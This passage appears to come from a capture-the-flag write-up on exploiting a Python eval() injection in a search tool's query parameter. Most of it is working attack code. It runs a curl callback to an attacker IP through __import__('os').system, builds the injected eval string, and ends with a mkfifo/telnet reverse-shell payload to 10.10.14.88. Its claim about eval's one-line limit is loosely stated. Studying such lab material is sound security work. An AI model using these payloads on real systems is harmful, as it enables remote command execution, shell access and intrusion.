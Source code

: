 Eval is a Python function that allows the execution of strings as code. However, there are some restrictions on its usage. One of them is that the expression inside cannot contain more than one line of code, even with the use of newline characters ('\n') or semicolons (';'). Another restriction is that native functions like 'import' must be called using the original [built-in syntax](https://docs.python.org/3/reference/import.html#the-import-system), such as:


```python
eval("__import__('os')")
```


If you want to know more about evals, check [here](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1).


### Building the Payload


We have two parameters under our control: `engine` and `query`. The `engine` parameter refers to the search engine being used, and it is a subclass of the Engine class. The `query` parameter represents the contents of our search. Let's utilize the `query` parameter for our search:


```python
url = eval(
  f"Engine.Google.search('INJECTION_GOES_HERE', copy_url={copy}, open_web={open})"
)
```


To construct the payload, we need to create a valid Python expression that executes any command of our choosing. Firstly, let's write a code snippet that uses 'curl' to retrieve a web page:


```python
__import__('os').system('curl https://10.10.14.88:8000/')
```


Now, we need to inject this code into the 'eval' expression. The simplest way to achieve this is by concatenating two strings: one empty string and the other being the result (status code) of the executed command:


```python 
url = eval(
  f"Engine.Google.search('' + str(__import__('os').system('curl http://10.10.14.88:8000/'))) # ', copy_url={copy}, open_web={open})"
)
```


That way, our malicious search will be executed on the server side:


```python
' + str(__import__('os').system('TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.88 4000 0<$TF | bash 1>$TF')))#
```

